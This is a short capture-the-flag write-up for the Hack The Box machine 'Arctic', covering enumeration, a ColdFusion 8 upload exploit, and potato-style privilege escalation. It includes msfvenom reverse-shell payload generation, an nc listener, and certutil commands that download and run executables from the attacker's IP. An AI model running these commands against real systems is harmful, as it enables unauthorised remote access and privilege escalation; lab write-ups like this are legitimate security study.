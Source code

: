 # Enumeration 

## open ports


```
Discovered open port 135/tcp on 10.129.78.89
Discovered open port 49154/tcp on 10.129.78.89
Discovered open port 8500/tcp on 10.129.78.89

```

### Port 8500

![[Pasted image 20230119071113.png]]
![[Pasted image 20230119071125.png]]
![[Pasted image 20230119071138.png]]

searchsploit cold fusion 8
![[Pasted image 20230119071515.png]]


# Foothold 
[jsp rev shell ](https://raw.githubusercontent.com/LaiKash/JSP-Reverse-and-Web-Shell/main/shell.jsp)
using [cf8-upload.py](https://github.com/p1ckzi/CVE-2009-2265/blob/main/cf8-upload.py)
run it


![[Pasted image 20230119073147.png]]
![[Pasted image 20230119073247.png]]


# Privesc 


![[Pasted image 20230119073310.png]]

potato time

On attacker:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=9002 -f exe -o rev.exe
nc -lvnp 9002
```

On Target:
```
certutil -urlcache -f http://10.10.16.19/rev.exe rev.exe
certutil -urlcache -f http://10.10.16.19/jp.exe jp.exe
.\jp.exe -t * -p rev.exe -l 9257
```

![[Pasted image 20230119073553.png]]
![[Pasted image 20230119073737.png]]



---
Tags: #ctf #htb #potato #cold_fusion_8 #Token_impersonation 
Resources: [Arctic](https://app.hackthebox.com/machines/9)
